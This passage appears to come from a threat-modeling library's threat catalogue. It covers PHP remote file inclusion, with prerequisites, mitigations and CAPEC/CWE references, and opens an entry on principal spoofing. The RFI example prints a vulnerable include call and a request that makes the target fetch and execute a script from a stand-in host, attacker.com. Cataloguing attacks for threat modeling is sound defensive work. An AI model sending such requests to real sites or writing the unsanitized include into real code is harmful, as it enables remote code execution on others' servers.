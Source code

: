 In this pattern the adversary is able to load and execute arbitrary code remotely available from the application. This is usually accomplished through an insecurely configured PHP runtime environment and an improperly sanitized include or require call, which the user can then control to point to any web-accessible file. This allows adversaries to hijack the targeted application and force it to execute their own instructions.

<dl>
  <dt>Severity</dt>
  <dd>High</dd>

  <dt>Prerequisites</dt>
  <dd>Target application server must allow remote files to be included in the require, include, etc. PHP directivesThe adversary must have the ability to make HTTP requests to the target web application.</dd>

  <dt>Example</dt>
  <dd>The adversary controls a PHP script on a server http://attacker.com/rfi.txt The .txt extension is given so that the script doesn't get executed by the attacker.com server, and it will be downloaded as text. The target application is vulnerable to PHP remote file inclusion as following: include($_GET['filename'] . '.txt') The adversary creates an HTTP request that passes his own script in the include: http://example.com/file.php?filename=http://attacker.com/rfi with the concatenation of the .txt prefix, the PHP runtime download the attack's script and the content of the script gets executed in the same context as the rest of the original script.</dd>

  <dt>Mitigations</dt>
  <dd>Implementation: Perform input validation for all remote content, including remote and user-generated contentImplementation: Only allow known files to be included (whitelist)Implementation: Make use of indirect references passed in URL parameters instead of file namesConfiguration: Ensure that remote scripts cannot be include in the include or require PHP directives</dd>

  <dt>References</dt>
  <dd>https://capec.mitre.org/data/definitions/193.html, http://cwe.mitre.org/data/definitions/98.html, http://cwe.mitre.org/data/definitions/80.html, http://cwe.mitre.org/data/definitions/714.html</dd>

  <dt>Condition</dt>
  <dd>target.validatesInput is False</dd>
</dl>



## AA02 Principal Spoof

A Principal Spoof is a form of Identity Spoofing where an adversary pretends to be some other person in an interaction. This is often accomplished by crafting a message (either written, verbal, or visual) that appears to come from a person other than the adversary. Phishing and Pharming attacks often attempt to do this so that their attempts to gather sensitive information appear to come from a legitimate source. A Principal Spoof does not use stolen or spoofed authentication credentials, instead relying on the appearance and content of the message to reflect identity. The possible outcomes of a Principal Spoof mirror those of Identity Spoofing. (e.g., escalation of privilege and false attribution of data or activities) Likewise, most techniques for Identity Spoofing (crafting messages or intercepting and replaying or modifying messages) can be used for a Principal Spoof attack. However, because a Principal Spoof is used to impersonate a person, social engineering can be both an attack technique (using social techniques to generate evidence in support of a false identity) as well as a possible outcome (manipulating people's perceptions by making statements or performing actions under a target's name).

